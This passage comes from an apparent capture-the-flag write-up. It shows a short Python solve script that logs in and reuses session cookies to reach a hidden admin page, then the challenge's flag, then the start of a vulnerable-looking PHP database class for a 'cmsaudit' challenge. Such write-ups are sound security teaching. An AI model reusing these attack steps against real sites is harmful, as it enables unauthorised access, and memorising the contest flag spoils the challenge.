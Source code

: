 ```python
r = s.put( # login
    f"{url}/fsalke2j9sdfcjlz/sMo98RyFqT6aKOmcF2NqarIpmrz2ZV",
    json={
        "username": ID,
        "password": PW
    },
    allow_redirects=False
)
cookies = r.cookies.get_dict()
print(cookies) 

r = s.put( # access admin page
    f"{url}/L0jU3lgokNLUQ7W1nppJ/XXnNWBoD9DWidSaR0aVVFmD8sNeiLz",
    cookies=cookies
)
print(r.status_code) 
print(r.text)
```
    
### Flag    
whitehat2024{876d9f5f677b12a9694d244cb7482b607dd18437513f6a3f70e67f0c7c27a1ff0e95517cd221a326a8dd90ffed70bb309451}     
    
<a id="cmsaudit"></a>                   
    
# cmsaudit    
   
dbcon.php
```php
<?php
require_once 'dbconfig.php';

class DBCON{
    private $mysqli;
    public $func = '';
    public $args = '';
    /**
     * @param string $host     데이터베이스 호스트
     * @param string $dbname   데이터베이스 이름
     * @param string $username 사용자 이름
     * @param string $password 비밀번호
     */
    public function __construct( $dbname = null, $username = null,$host = null, $password = null){
        // .env 방식
        // $host = getenv('DB_HOST');
        if( $username && $dbname){
            $this->mysqli = new mysqli(DB_HOST, $username, DB_PASS, $dbname);
        }else{
            $this->mysqli = new mysqli(DB_HOST, DB_USER, DB_PASS,DB_NAME);
        }
        if ($this->mysqli->connect_error) {
            die("데이터베이스 연결 실패: " . $this->mysqli->connect_error);
        }
    }
    /**
     * 쿼리 실행
     * 
     * @param string $sql SQL 쿼리
     * @return mysqli_result|bool 쿼리 실행 결과
     */
    public function query($sql){
        $sql = trim($sql); 
        if (empty($sql)) {
```